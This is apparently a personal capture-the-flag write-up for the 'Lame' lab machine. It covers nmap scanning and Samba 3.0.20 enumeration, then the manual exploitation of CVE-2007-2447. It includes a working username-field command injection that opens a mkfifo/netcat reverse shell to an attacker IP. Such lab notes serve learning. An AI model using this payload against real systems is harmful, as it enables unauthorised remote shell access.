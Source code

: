 * solution:
  1. nmap
  #+begin_src sh
nmap -sC -sV -oA Lame.nmap <ip>
    ## find smb service with version
  #+end_src
  #+NAME: nmap result
  [[./nmap.png]]
  2. (since ftp backdoor does not work), search <smb 3.0.20>
      + CVE-2007-2447 (msfconsole will give this result)

* problems:
  1. had to use smb version NT1 to connect server. 
  
* CVE-2007-2447 manual script:
   + config smbclient to use NT1
   + enumerate the smb directory, find where anonymous login is possible:
   #+begin_src sh
smbclient -L //ip
   #+end_src
   
   + anonymous login to /tmp
   #+begin_src sh
smbclient //ip/tmp
   #+end_src

   + use the logon script:
   #+begin_src sh
logon "/=`nohup rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.26 4444 >/tmp/g;rm /tmp/g`" ""
     ## logon “/= `<payload>`”
     ## based on CVE-2007-2447, the logon script did not censor user input properly, as a result, the script enclosed within the backtips is executed.
     ## vuln at source/smbd/map_username.c
     ## internal of the vuln: https://0x00sec.org/t/cvexplained-cve-2007-2447/22748
   #+end_src

